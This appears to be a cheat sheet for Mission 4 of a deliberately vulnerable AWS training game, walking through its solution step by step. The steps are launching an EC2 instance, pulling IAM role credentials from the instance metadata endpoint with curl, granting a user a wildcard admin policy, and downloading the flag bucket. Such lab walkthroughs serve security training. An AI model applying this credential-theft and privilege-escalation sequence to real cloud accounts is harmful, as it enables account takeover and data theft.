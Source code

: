 # Mission 4 cheat sheet


This mission lets users manipulate new EC2 instances in order to become more familiar with security groups, and has a small IAM component.


  * Given: AWS key, AWS secret key, ssh key
  * Variables: $id


$ `aws configure --profile juan`

Set up the credentials for use. Region is always us-east-1 and json output is recommended.


$ `aws --profile juan ec2 describe-instances`

List the existing instances, since it is not possible to list existing s3 buckets. Note the public and private ip addresses as $public_ip and $private_ip. Note the keypair used as $keypair. You may also want to take note of the AMI used, as $ami_id, and the subnet as  $subnet_id.

Visit the public address in browser if you like.


$ `aws --profile juan ec2 describe-security-groups`

Two security groups are available: "filtered", and "allow". The "allow" group will not block you, so you may use it. Note its id as $sg_id.

NB: The programmer would like to highlight the fact that the user's IP is still used, despite the loss of realism, in order to ensure the security of their account. :)


$ `aws --profile juan ec2 run-instances --image-id $ami_id --instance-type t2.micro --subnet-id $subnet_id --security-group-id $sg-id --key-name SauerCloud-mission4-keypair-Evilcorp-Evilkeypair-$id --associate-public-ip-address`

Start a new instances using the "allow" security group, and parameters allowing it to connect to the other instance. You may also create a new keypair yourself. Using "t2.micro" as type serves to ensure you remain in free tier. You need to associate a public ip adddress to ensure you can connect using SSH.


$ `ssh -i ssh_key.pem ec2-user@<new instance public ip>`

Connect into the machine. You may also forward the key into it as well if you want.


$ `ssh -i ssh_key.pem ec2-user@$instance_private_ip`

Connect into the filtered machine from an allowed ip.


## Running commands from the instance

$ `aws iam list-users`

Use the instance's credentials to execute commands.


## Alternative: Get the credentials and load them on your own shell

$ `curl 169.254.169.254/latest/meta-data/iam/security-credentials/SauerCloud-mission4-role-ec2-$id` 

This allows you to get the IAM credentials and write them to your local ~/.aws/credentials file under a named profile.

$ `aws configure --profile mission4-ec2`

Write the access key and secret access key. Add then the security token to your credentials file.

 credentials file

 ---

 [mission4-ec2]
aws_access_key = ASIAXXXXXXXXXXXXX

aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

aws_session_token = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX...XXXXXXXXXXXXX==


## Using the IAM role

$ `aws iam list-users`

List the users of the account. Find the UserName of user juan that you used before. It will be referred to as $juan_name.


$ `vim admin_policy.json`

Write an administrator policy (example follows) to a local .json file.

Example:
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```


$  `aws iam put-user-policy --user-name $juan_name --policy-name admin --policy-document file://admin.json`

Since the instance may put user policies, update the user policy of user juan with the admin policy.


$ `aws --profile juan s3 ls; aws --profile juan s3 sync s3://sauercloud-mission4-final-s3-$id ./bucket-data`

Download the data in the final bucket.


$ `cat on_buddha.txt`

You win! Decoding the flag is optional.


## Remember

**Delete anything you created before attempting to destroy the mission, especially the new instance! You can, of course, use the console or the CLI for it with your admin profile.**